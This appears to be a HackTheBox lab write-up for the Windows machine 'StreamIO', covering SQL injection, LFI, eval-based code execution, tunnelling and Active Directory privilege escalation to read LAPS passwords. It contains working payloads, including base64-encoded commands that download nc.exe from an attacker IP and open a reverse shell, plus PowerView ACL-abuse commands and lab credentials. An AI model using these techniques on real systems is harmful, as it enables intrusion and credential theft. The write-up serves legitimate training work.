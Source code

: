 ```yaml
---
layout: default
title: "StreamIO"
parent: HackTheBox
---
```


# Box Info

|-------|---------|
| Name | StreamIO |
| OS | Windows 🪟 |
| Rating | Medium |

# Enumeration 

### Nmap Scan

```text
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 15:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-06-27T15:35:46+00:00; +7h00m11s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Microsoft IIS 
- Sub-Domain : `watch.streamio.htb`
- Domain : `streamio.htb`
- DC : `DC.streamio.htb`

### Web Enumration

On **Port 80** there was nothing, just IIS welcome screen, however on **Port 443 (https://streamio.htb/)** there is a login page as well as register page but can't login with new user we registerd.

Moving on to **https://watch.streamio.htb/** , here we have is a list of all movies. On doing `Dir Busting` got an interesting page:
- `search.php`

We can search movies here, so after trying manul union `SQLi` we can enumrate the database, since `sqlmap` was not working as page had some blacklist.
<img src="../../resources/streamio/20220708165200.png">

On after enumrating Database got some usernames and password hashes.

```text
'+UNION+SELECT+1,password,3,4,5,6+FROM+dbo.users+--+-
```

Some of the hashes were available on [CrackStation](https://crackstation.net/)

Now since correct Username and Password is not sure , did a `clusterbomb` attack on **Login Page** on `https://streamio.htb/`
and found a correct pair:

```text
yoshihide : 66boysandgirls..
```

---

# Foothold

Now since we can Login and there is nothing much at front, found `admin` page by doing `Dir busting`.

On admin page there are different features for user and each we are accessing each feature as some **GET** paramter, so on fuzzing it found `debug` paramter.

This paramter was vulnerable to `LFI`. Reading `Index.php` :

```text
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

We can inculde any file from the system with absolute path and found credentials for `db_admin` .

```text
db_admin : B1@hx31234567890
```

Therefore searching for some other files, found `mater.php` which have `eval()` function on `include` POST paramter.

So we can exploit it and get Reverse Shell by uploading it and executing it.

```shell-session
$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJjZXJ0dXRpbC5leGUgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC4yNy9uYy5leGUgbmMuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k

$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJuYy5leGUgMTAuMTAuMTQuMjcgOTAwMSAtZSBjbWQuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k
```

#### Enumrating Database

Since we got the Database Credentials and we can see it's runnning 
![2](../../resources/streamio/20220708171524.png)
we can access it by tunneling our traffic, I used `chisel` : 

```text
.\chisel.exe client <Att._IP>:5555 R:4000:10.10.11.158:1433/tcp
```

After accessing the database using `impacket-mssqlclient`

```text
impacket-mssqlclient streamio.htb/db_admin@127.0.0.1 -port 4000
```

There was a `backup` Database which had some usernames and password hashes. One of them is user on system as well.

```text
nikk37 : get_dem_girls2@yahoo.com
```

# Privilage  Escalation
We can login as `nikk37` using `Evil-winRM`,
Running `winPEAS` and found an Intersting file

![3](../../resources/streamio/20220708172334.png)

We can get some passwords from it.
Tool used : [FirePWD](https://github.com/lclevy/firepwd)

```text
admin JDg0dd1s@d0p3cr3@t0r
nikk37 n1kk1sd0p3t00
yoshihide paddpadd@12
JDgodd password@12
```

Password for `JDgodd` is `JDg0dd1s@d0p3cr3@t0r` it was just a guess `uwu` , after getting authencation failed in Last step.

### Using BloodHound
Using `bloodhound-python` to enumerate **AD** 

```shell
$ bloodhound-python -u nikk37 -p 'get_dem_girls2@yahoo.com' -ns 10.10.11.158 -d streamio.htb -c All
```

> I used `SharpHound` as well but it was not collecting any Information about user, Don't know why but somehow `bloodhound-python` was

![4](../../resources/streamio/20220708173434.png)

`JDgodd` user have `write` permissions on `CORE STAFF` group

And again `CORE STAFF` group members have `ReadLAPSPassword` rights.

![5](../../resources/streamio/20220708173656.png)

**Path to Follow : **

`JDgodd` have `write` rights on `CORE STAFF` we can add `JDgodd` itself into `CORE STAFF` group.
Since we cannot create any other user as any of our owned user is not a member of `Account Operator` group which is a special group in **AD** even though bloodhoud shows that `nikk37` is a member of this group but it is not.

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All 

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Credential $Cred

Get-DomainGroupMember -Identity 'CORE STAFF'
```

And now we can read `LAPS` Password : 
![6](../../resources/streamio/20220708174448.png)

---

**Reference :** [TheHacker.Recipes ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)


